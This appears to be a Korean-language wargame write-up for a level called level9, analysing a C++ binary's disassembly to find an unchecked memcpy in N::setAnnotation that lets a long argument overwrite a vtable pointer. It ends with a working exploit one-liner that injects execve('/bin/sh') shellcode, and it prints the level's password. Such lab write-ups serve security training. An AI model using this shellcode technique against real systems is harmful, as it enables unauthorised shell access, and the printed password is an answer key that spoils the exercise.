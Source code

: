 > Password: c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a

단순히 objdump -d 로 어셈블리 코드를 추출하면 함수의 이름이 깨지는 것으로 봐서 naming mangling이 적용된 c++코드인 것을 알 수 있다 따라서 --demangle 옵션을 줘서 추출한다.

어셈블리 코드를 보면 

```
080485f4 <main>:
 80485f4:	55                   	push   %ebp
 80485f5:	89 e5                	mov    %esp,%ebp
 80485f7:	53                   	push   %ebx
 80485f8:	83 e4 f0             	and    $0xfffffff0,%esp
 80485fb:	83 ec 20             	sub    $0x20,%esp
 80485fe:	83 7d 08 01          	cmpl   $0x1,0x8(%ebp)
 8048602:	7f 0c                	jg     8048610 <main+0x1c>
```

먼저 인자의 개수가 1개인지 확인한 뒤 1개가 아닐 경우 바로 종료한다.

0개일 경우

```
 8048610:	c7 04 24 6c 00 00 00 	movl   $0x6c,(%esp)
 8048617:	e8 14 ff ff ff       	call   8048530 <operator new(unsigned int)@plt>
 804861c:	89 c3                	mov    %eax,%ebx
 804861e:	c7 44 24 04 05 00 00 	movl   $0x5,0x4(%esp)
 8048625:	00 
 8048626:	89 1c 24             	mov    %ebx,(%esp)
 8048629:	e8 c8 00 00 00       	call   80486f6 <N::N(int)>
```

위 코드와 같이 N클래스의 인스턴스를 2번 생성한 이후

```
 8048664:	8b 45 0c             	mov    0xc(%ebp),%eax
 8048667:	83 c0 04             	add    $0x4,%eax
 804866a:	8b 00                	mov    (%eax),%eax
 804866c:	89 44 24 04          	mov    %eax,0x4(%esp) 
 8048670:	8b 44 24 14          	mov    0x14(%esp),%eax
 8048674:	89 04 24             	mov    %eax,(%esp)
 8048677:	e8 92 00 00 00       	call   804870e <N::setAnnotation(char*)>
```

setAnnotation이라는 맴버 함수를 argv[1]을 인자로 하여 호출한다.

```
0804870e <N::setAnnotation(char*)>:
 804870e:	55                   	push   %ebp
 804870f:	89 e5                	mov    %esp,%ebp
 8048711:	83 ec 18             	sub    $0x18,%esp
 8048714:	8b 45 0c             	mov    0xc(%ebp),%eax
 8048717:	89 04 24             	mov    %eax,(%esp)
 804871a:	e8 01 fe ff ff       	call   8048520 <strlen@plt>
 804871f:	8b 55 08             	mov    0x8(%ebp),%edx
 8048722:	83 c2 04             	add    $0x4,%edx
 8048725:	89 44 24 08          	mov    %eax,0x8(%esp)
 8048729:	8b 45 0c             	mov    0xc(%ebp),%eax
 804872c:	89 44 24 04          	mov    %eax,0x4(%esp)
 8048730:	89 14 24             	mov    %edx,(%esp)
 memcpy(this + 4?, argv[1], );
 8048733:	e8 d8 fd ff ff       	call   8048510 <memcpy@plt>
 8048738:	c9                   	leave  
 8048739:	c3                   	ret
```

setannotation은 단순히 클래스의 버퍼에 인자로 들어온 문자열을 복사하는 함수인데, 버퍼 오버플로우에 가능성이 있어보인다.

이후 vtable에서 어떤 함수를 가져와서 실행하는 것을 볼 수 있다.

```
 804867c:	8b 44 24 10          	mov    0x10(%esp),%eax
 8048680:	8b 00                	mov    (%eax),%eax
 8048682:	8b 10                	mov    (%eax),%edx
 8048684:	8b 44 24 14          	mov    0x14(%esp),%eax
 8048688:	89 44 24 04          	mov    %eax,0x4(%esp)
 804868c:	8b 44 24 10          	mov    0x10(%esp),%eax
 8048690:	89 04 24             	mov    %eax,(%esp)
 8048693:	ff d2                	call   *%edx
```

따라서 위에 setAnnotation함수에서 vtable을 덮어써서 쉘코드를 실행시킬 수 있다.

```bash
./level9 $(python -c 'print "\x10\xa0\x04\x08\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + ("A" * 76) + "\x0c\xa0\x04\x08",')
```